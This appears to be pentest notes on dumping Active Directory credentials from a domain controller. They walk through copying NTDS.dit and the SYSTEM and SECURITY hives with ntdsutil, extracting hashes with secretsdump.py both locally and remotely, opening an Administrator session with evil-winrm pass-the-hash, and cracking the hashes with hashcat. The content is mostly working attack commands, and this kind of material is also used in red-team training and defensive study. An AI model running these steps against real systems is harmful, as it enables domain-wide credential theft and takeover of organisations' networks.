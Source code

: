 **New Technologies Directory Services (NTDS)**

Is a database containing all Active Directory data, including objects, attributes, credentials, etc.<br>
NTDS is located in ```C:\Windows\NTDS``` by default, and it is encrypted to prevent data extraction from a target machine. Accessing the ```NTDS.dit``` file from the machine running is disallowed since the file is used by Active Directory and is locked.
<br>However, there are various ways to gain access to it. 
we will use ```ntdsutil``` tool to make a copy to dump the file's content. It is important to note that decrypting the NTDS file requires a system Boot Key to attempt to decrypt LSA Isolated credentials, which is stored in the ```SECURITY``` file system. Therefore, we must also dump the security file containing all required files to decrypt. <br>

**Local Dumping (No Credentials)**

This is usually done if you have no credentials available but have administrator access to the domain controller.<br>
To successfully dump the content of the NTDS file we need the following files:

    C:\Windows\NTDS\ntds.dit
    C:\Windows\System32\config\SYSTEM
    C:\Windows\System32\config\SECURITY

The following is a one-liner PowerShell command to dump the NTDS file using the ```Ntdsutil``` tool in the ```C:\temp``` directory.
```
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
```
Now, if we check the c:\temp directory, we see two folders: ```Active Directory``` and ```registry```.<br>
The two folders contain the required 3 files mentioned above.<br>
Then we will use ```secretsdump.py``` tool to extract the hashes.
```
secretsdump.py -security path/to/SECURITY -system path/to/SYSTEM -ntds path/to/ntds.dit local
```
**Another way to do that** 

This command will dump all NTDS hashes: 
```
secretsdump.py -just-dc <username>:<password>@[Target_IP]
```
Now we could use ```evil-winrm``` to open session using the NTML hashes we got:
```
evil-winrm -i <target ip> -u Administrator -H <hash of administrator>
```
Finally, we could use ```hashcat``` to crack the hashes.
```
hashcat -m 1000 -a 0 hashes.txt /path/to/rockyou.txt --force
```

















        

